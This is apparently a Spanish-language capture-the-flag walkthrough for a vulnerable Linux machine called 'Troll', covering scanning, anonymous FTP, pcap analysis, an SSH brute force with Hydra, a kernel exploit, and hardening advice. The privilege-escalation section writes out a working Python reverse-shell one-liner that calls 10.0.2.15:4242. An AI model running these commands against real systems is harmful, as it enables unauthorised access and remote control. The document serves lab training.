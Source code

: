 # **Explotación de Máquina "Troll"**

![Dificultad: Media](https://img.shields.io/badge/Dificultad-Media-orange) ![Categoría: FTP/Web/SSH](https://img.shields.io/badge/Categoría-FTP%2FWeb%2FSSH-blue) ![CVSS: 7.8](https://img.shields.io/badge/CVSS-7.8-red)

## **Descripción Técnica**
Análisis de penetración a máquina Linux que explota:
1. FTP Anonymous con archivo oculto
2. Filtración de credenciales en tráfico de red
3. Escalada de privilegios mediante cronjob vulnerable

**Tiempo estimado**: 60-90 minutos  
**Nivel de complejidad**: Intermedio  
**Sistema operativo**: Ubuntu 14.04

## **Índice Analítico**
1. [Reconocimiento](#reconocimiento)
2. [Análisis de Red](#análisis-de-red)
3. [Explotación Web](#explotación-web)
4. [Post-Explotación](#post-explotación)
5. [Lecciones Aprendidas](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -sV -sC -p- -T4 192.168.1.150 -oN scan.txt
```
**Resultados**:
```
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1
80/tcp open  http    Apache httpd 2.4.7
```

## **Análisis de Red**

### 2. Conexión FTP Anónima
```bash
ftp 192.168.1.150
Name: anonymous
Password: [enter]
ftp> get lol.pcap
```

### 3. Análisis con Wireshark
```bash
wireshark lol.pcap
```
**Hallazgo clave**: 
- Usuario `sup3rs3cr3tdirlol` en tráfico FTP

## **Explotación Web**

### 4. Descubrimiento de Directorio
```bash
curl http://192.168.1.150/sup3rs3cr3tdirlol/
```
**Archivo encontrado**:
- `roflmao` (hexdump revela pista: `0x0856BF`)

### 5. Descubrimiento de Credenciales
```bash
curl http://192.168.1.150/sup3rs3cr3tdirlol/this_folder_contains_the_password/Pass.txt
```
**Contenido**:
```
Password: Tr0ll3d!
```

## **Post-Explotación**

### 6. Fuerza Bruta SSH
```bash
hydra -L users.txt -p "Tr0ll3d!" 192.168.1.150 ssh -t 4
```
**Credenciales válidas**:
- Usuario: overflow
- Contraseña: Tr0ll3d!

### 7. Escalada de Privilegios

**Opción 1: Cronjob Vulnerable**
```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /lib/log/cleaner.py
```

**Opción 2: Exploit de Kernel**
```bash
gcc -o exploit 37392.c
./exploit
```

## **Conclusión**

### Matriz de Riesgos
| Vulnerabilidad | CVSS | Impacto |
|---------------|------|---------|
| FTP Anonymous | 5.3 | Medio |
| Credenciales en tráfico | 7.5 | Alto |
| Cronjob inseguro | 7.8 | Alto |

### Recomendaciones
1. **Para FTP**:
```bash
# Deshabilitar acceso anónimo
sudo sed -i 's/anonymous_enable=YES/anonymous_enable=NO/g' /etc/vsftpd.conf
```

2. **Para Cronjobs**:
```bash
# Restringir permisos
sudo chown root:root /lib/log/cleaner.py
sudo chmod 700 /lib/log/cleaner.py
```

> 🔐 **Aviso Ético**: Todo contenido es para fines educativos en entornos controlados.

---

**Stack Tecnológico**:
- `nmap` 7.80+
- `Wireshark` 3.0+
- `Hydra` 9.3+
- `Metasploit` 6.0+

**Referencias**:
1. [CWE-306: Missing Authentication](https://cwe.mitre.org/data/definitions/306.html)
2. [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings)
3. [CVE-2015-1328](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1328)
